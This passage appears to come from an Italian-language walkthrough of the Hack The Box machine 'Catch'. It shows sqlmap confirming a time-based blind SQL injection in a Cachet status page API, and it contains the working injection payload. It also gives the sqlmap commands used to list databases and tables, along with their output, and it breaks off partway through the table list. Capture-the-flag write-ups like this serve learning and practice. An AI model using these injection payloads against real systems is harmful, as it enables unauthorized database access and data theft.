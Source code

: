 ```shell
[05:21:39] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[05:21:40] [INFO] target URL appears to have 1 column in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
[05:21:41] [WARNING] if UNION based SQL injection is not detected, please consider and/or try to force the back-end DBMS (e.g. '--dbms=mysql') 
[05:21:44] [INFO] target URL appears to be UNION injectable with 1 columns
[05:21:44] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 92 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+'a'=? and 1=1) AND (SELECT 9527 FROM (SELECT(SLEEP(5)))oRNU)+--+
---
[05:22:06] [INFO] the back-end DBMS is MySQL
[05:22:06] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[05:22:06] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 74 times
[05:22:06] [INFO] fetched data logged to text files under '/home/asd/.local/share/sqlmap/output/status.catch.htb'

[*] ending @ 05:22:06 /2022-07-13/
```

Ci ricaviamo i DB: `sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --batch --dbms mysql --thread 10 --dbs`

```mysql
available databases [5]:
[*] cachet
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

Ci ricaviamo le tabelle di *cachet*: `sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --batch --dbms mysql --thread 10 -D cachet --tables`

```mysql
Database: cachet
[25 tables]
+---------------------+
| actions             |
| cache               |
| component_groups    |
| components          |
| failed_jobs         |
| incident_components |
| incident_templates  |
| incident_updates    |
| incidents           |
| invites             |
| jobs                |
| meta                |
| metric_points       |
```